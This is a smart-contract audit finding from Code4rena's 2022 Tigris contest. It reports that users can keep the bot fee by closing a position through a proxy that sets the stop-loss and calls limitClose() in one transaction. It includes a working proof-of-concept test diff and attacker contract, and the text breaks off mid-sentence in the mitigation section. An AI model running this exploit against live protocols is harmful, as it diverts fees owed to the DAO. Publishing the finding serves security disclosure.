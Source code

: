 ## Tags

- bug
- 2 (Med Risk)
- judge review requested
- selected for report
- sponsor confirmed
- M-17

# [User can close an order via `limitClose()`, and take bot fees to themselves](https://github.com/code-423n4/2022-12-tigris-findings/issues/468) 

# Lines of code

https://github.com/code-423n4/2022-12-tigris/blob/496e1974ee3838be8759e7b4096dbee1b8795593/contracts/Trading.sol#L565-L576


# Vulnerability details



## Impact
Bot fees are used when a position is opened/closed via a bot. In that case a bot fee is subtracted from the dao fee and sent to the closing bot.
A user can use that to to reduce the dao fees for closing an order and keep it to themselves.
Instead of closing the order via `initiateClose()`, the user can use a proxy contract to update the stop-loss value and then `limitClose()` the order.
Since that is done in one function call, no bot can run the `limitClose()` and the bot fee will go to the user.

## Proof of Concept

The following PoC shows how a trade is closed by a proxy contract that sets the limit and closes it via `limitClose()`:

```diff
diff --git a/test/07.Trading.js b/test/07.Trading.js
index ebe9948..e50b0cc 100644
--- a/test/07.Trading.js
+++ b/test/07.Trading.js
@@ -17,6 +17,7 @@ describe("Trading", function () {
 
   let TradingExtension;
   let tradingExtension;
+  let myTrader;
 
   let TradingLibrary;
   let tradinglibrary;
@@ -37,7 +38,7 @@ describe("Trading", function () {
 
   let MockDAI;
   let MockUSDC;
-  let mockusdc;
+  let mockusdc, mockdai;
 
   let badstablevault;
 
@@ -55,6 +56,7 @@ describe("Trading", function () {
     const Position = await deployments.get("Position");
     position = await ethers.getContractAt("Position", Position.address);
     MockDAI = await deployments.get("MockDAI");
+    mockdai = await ethers.getContractAt("MockERC20", MockDAI.address);
     MockUSDC = await deployments.get("MockUSDC");
     mockusdc = await ethers.getContractAt("MockERC20", MockUSDC.address);
     const PairsContract = await deployments.get("PairsContract");
@@ -84,6 +86,10 @@ describe("Trading", function () {
     TradingLibrary = await deployments.get("TradingLibrary");
     tradinglibrary = await ethers.getContractAt("TradingLibrary", TradingLibrary.address);
     await trading.connect(owner).setLimitOrderPriceRange(1e10);
+
+
+    let mtFactory = await ethers.getContractFactory("MyTrader");
+    myTrader = await mtFactory.deploy(Trading.address, Position.address);
   });
   describe("Check onlyOwner and onlyProtocol", function () {
     it("Set max win percent", async function () {
@@ -536,6 +542,31 @@ describe("Trading", function () {
       expect(await position.assetOpenPositionsLength(0)).to.equal(1); // Trade has opened
       expect(await stabletoken.balanceOf(owner.address)).to.equal(parseEther("0")); // Should no tigAsset left
     });
+
+    it("Test my trader", async function () {
+      let TradeInfo = [parseEther("1000"), MockDAI.address, StableVault.address, parseEther("10"), 0, true, parseEther("0"), parseEther("0"), ethers.constants.HashZero];
+      let PriceData = [node.address, 0, parseEther("20000"), 0, 2000000000, false];
+      let message = ethers.utils.keccak256(
+        ethers.utils.defaultAbiCoder.encode(
+          ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
+          [node.address, 0, parseEther("20000"), 0, 2000000000, false]
+        )
+      );
+      let sig = await node.signMessage(
+        Buffer.from(message.substring(2), 'hex')
+      );
+      
+      let PermitData = [permitSig.deadline, ethers.constants.MaxUint256, permitSig.v, permitSig.r, permitSig.s, true];
+      await trading.connect(owner).initiateMarketOrder(TradeInfo, PriceData, sig, PermitData, owner.address);
+
+
+      await trading.connect(owner).approveProxy(myTrader.address, 1e10);
+      await myTrader.connect(owner).closeTrade(1, PriceData, sig);
+
+
+    });
+  return;
+
     it("Closing over 100% should revert", async function () {
       let TradeInfo = [parseEther("1000"), MockDAI.address, StableVault.address, parseEther("10"), 0, true, parseEther("0"), parseEther("0"), ethers.constants.HashZero];
       let PriceData = [node.address, 0, parseEther("20000"), 0, 2000000000, false];
@@ -551,8 +582,10 @@ describe("Trading", function () {
       
       let PermitData = [permitSig.deadline, ethers.constants.MaxUint256, permitSig.v, permitSig.r, permitSig.s, true];
       await trading.connect(owner).initiateMarketOrder(TradeInfo, PriceData, sig, PermitData, owner.address);
+
       await expect(trading.connect(owner).initiateCloseOrder(1, 1e10+1, PriceData, sig, StableVault.address, StableToken.address, owner.address)).to.be.revertedWith("BadClosePercent");
     });
+    return;
     it("Closing 0% should revert", async function () {
       let TradeInfo = [parseEther("1000"), MockDAI.address, StableVault.address, parseEther("10"), 0, true, parseEther("0"), parseEther("0"), ethers.constants.HashZero];
       let PriceData = [node.address, 0, parseEther("20000"), 0, 2000000000, false];
@@ -700,6 +733,7 @@ describe("Trading", function () {
       expect(margin).to.equal(parseEther("500"));
     });
   });
+  return;
   describe("Trading using <18 decimal token", async function () {
     it("Opening and closing a position with tigUSD output", async function () {
       await pairscontract.connect(owner).setAssetBaseFundingRate(0, 0); // Funding rate messes with results because of time

```

`MyTrader.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ITrading} from "../interfaces/ITrading.sol";
import "../utils/TradingLibrary.sol";
import "../interfaces/IPosition.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/extensions/draft-ERC20Permit.sol";




contract MyTrader{

    ITrading trading;
    IPosition position;

    receive() payable external{

    }

    constructor(address _trading, address _position){
        trading = ITrading(_trading);
        position = IPosition(_position);
    }

    function closeTrade(
        uint _id,
        PriceData calldata _priceData,
        bytes calldata _signature
    ) public{
        bool _tp = false;
        
        trading.updateTpSl(_tp, _id, _priceData.price, _priceData, _signature, msg.sender);
        trading.limitClose(_id, _tp, _priceData, _signature);

        
    }

}
```

## Recommended Mitigation Steps
Don't allow updating sl or tp and 